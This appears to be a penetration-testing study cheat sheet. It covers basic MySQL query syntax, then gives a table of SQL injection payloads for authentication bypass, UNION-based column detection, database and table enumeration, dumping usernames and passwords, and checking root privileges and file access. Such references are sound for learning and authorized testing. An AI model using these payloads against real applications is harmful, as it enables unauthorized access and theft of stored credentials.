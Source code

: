 | `SELECT * FROM logins ORDER BY column_1` | Sort by column |
| `SELECT * FROM logins ORDER BY column_1 DESC` | Sort by column in descending order |
| `SELECT * FROM logins ORDER BY column_1 DESC, id ASC` | Sort by two-columns |
| `SELECT * FROM logins LIMIT 2` | Only show first two results |
| `SELECT * FROM logins LIMIT 1, 2` | Only show first two results starting from index 2 |
| `SELECT * FROM table_name WHERE <condition>` | List results that meet a condition |
| `SELECT * FROM logins WHERE username LIKE 'admin%'` | List results where the name is similar to a given string |

## MySQL Operator Precedence
* Division (`/`), Multiplication (`*`), and Modulus (`%`)
* Addition (`+`) and Subtraction (`-`)
* Comparison (`=`, `>`, `<`, `<=`, `>=`, `!=`, `LIKE`)
* NOT (`!`)
* AND (`&&`)
* OR (`||`)

## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| `' order by 1-- -` | Detect number of columns using `order by` |
| `cn' UNION select 1,2,3-- -` | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -` | Basic Union injection |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |